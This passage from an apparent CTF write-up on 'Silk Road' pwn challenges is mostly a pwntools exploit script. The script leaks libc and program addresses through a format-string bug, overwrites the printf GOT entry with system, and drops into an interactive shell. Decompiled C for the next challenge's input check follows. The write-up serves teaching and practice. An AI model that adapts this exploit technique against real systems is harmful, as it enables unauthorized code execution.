 ```python
sh.send("98831114236")
sh.recvuntil(">> ")
sh.sendline("1")

sh.recvuntil("admin: ")

def format_exp(payload):
	sh.sendline(payload)
	sh.recvuntil("invalid: \\")
	ret = sh.recvuntil('\n')
	sh.recvuntil("admin: ")
	return ret[:-1]

libc_addr = int(format_exp("\\%2$p")[2:], 16) - 0x3ed8c0
print hex(libc_addr)

#mh = libc_addr + e.symbols["__malloc_hook"]
#format_exp('\\' + cont_shoot([mh, mh+2, mh+4], []))
#sh.sendline("\\q" + cyclic(128))
#library function rewrites our input

prog_addr = int(format_exp("\\%9$p")[2:], 16) - 0x98d
print hex(prog_addr)

pg = prog_addr + 0x3f50 #printf got table entry
sys = libc_addr + 0x10a38c#e.symbols["system"]

format_exp("\\" + cyclic(7) + 'A' * (8 * 8) + p64(0) * 2 + p64(pg) + p64(pg+2) + p64(pg+4))

sh.sendline('\\' + cont_shoot([25, 26, 27], \
	[sys & 0xffff, (sys >> 0x10) & 0xffff, (sys >> 0x20)], 0x11))

sh.interactive()
```

## 182 Pwn / Silk Road III

The vulnerability is exactly same, but the verification is different.

```c
signed __int64 __fastcall sub_1FCA(char *input)
{
  int v1; // eax
  int v2; // ST1C_4
  unsigned __int64 v3; // rbx
  size_t v4; // r12
  size_t v5; // r12
  char v6; // bl
  int v7; // ebx
  int v8; // ebx
  size_t v9; // rax
  signed __int64 result; // rax
  signed int i; // [rsp+14h] [rbp-4Ch]
  signed int j; // [rsp+14h] [rbp-4Ch]
  signed int k; // [rsp+14h] [rbp-4Ch]
  signed int l; // [rsp+14h] [rbp-4Ch]
  char _1337[5]; // [rsp+22h] [rbp-3Eh]
  char v16[6]; // [rsp+27h] [rbp-39h]
  char v17[6]; // [rsp+2Dh] [rbp-33h]
  char haystack[6]; // [rsp+33h] [rbp-2Dh]
  char v19[15]; // [rsp+39h] [rbp-27h]
  unsigned __int64 v20; // [rsp+48h] [rbp-18h]

```